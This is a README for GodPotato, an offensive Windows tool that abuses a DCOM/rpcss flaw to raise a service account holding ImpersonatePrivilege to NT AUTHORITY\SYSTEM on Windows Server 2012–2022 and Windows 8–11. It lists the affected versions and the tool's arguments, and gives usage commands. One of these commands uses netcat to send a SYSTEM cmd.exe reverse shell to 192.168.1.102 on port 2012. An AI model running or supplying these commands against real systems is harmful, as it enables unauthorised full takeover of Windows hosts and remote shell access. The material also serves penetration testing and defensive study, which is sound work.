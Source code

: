 # GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.



Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato



# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -clsid Required:False Clsid (default {4991d34b-80a1-4291-83b6-3328366b9097})
        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"


```


Use the program's built-in Clsid for privilege escalation and execute a simple command


```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)


Customize Clsid and execute commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "cmd /c whoami"

```


![](images/2.png)


Execute reverse shell commands

```
GodPotato -clsid {4991d34b-80a1-4291-83b6-3328366b9097} -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
# Thanks

zcgonvh


skay


# License

[Apache License 2.0](/LICENSE) 

